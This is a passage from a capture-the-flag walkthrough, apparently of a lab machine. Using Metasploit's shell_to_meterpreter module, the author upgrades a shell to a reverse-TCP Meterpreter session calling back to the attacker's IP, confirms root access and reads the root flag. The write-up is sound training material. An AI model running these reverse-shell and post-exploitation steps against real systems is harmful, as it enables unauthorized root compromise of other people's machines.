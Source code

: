 And then use the `run` command:

```
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on <MY IP>:4433 
[*] Sending stage (984904 bytes) to 10.10.131.100
[*] Meterpreter session 2 opened (<MY IP>:4433 -> 10.10.131.100:51308 ) at 2022-01-25 11:34:59 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Stopping exploit/multi/handler
```

Then let's interact with the newly created **session 2** by typing `sessions -i 2` and then `getuid` and `sysinfo` to validate we're root on the target system:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.10.131.100
OS           : Ubuntu 16.04 (Linux 4.4.0-159-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

The root flag is likely hidden in the usual /root directory so let's go check it out by running `cd /root` and `ls`:

```
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2022-01-25 08:33:38 -0500  .bash_history
100644/rw-r--r--  3106  fil   2015-10-22 13:15:21 -0400  .bashrc
040700/rwx------  4096  dir   2019-08-16 18:48:47 -0400  .cache
100644/rw-r--r--  148   fil   2015-08-17 11:30:33 -0400  .profile
100644/rw-r--r--  33    fil   2019-08-16 15:54:44 -0400  root.txt
```

And there we have it, our final flag to complete this CTF! `cat root.txt`:

```
meterpreter > cat root.txt
<REDACTED>
```
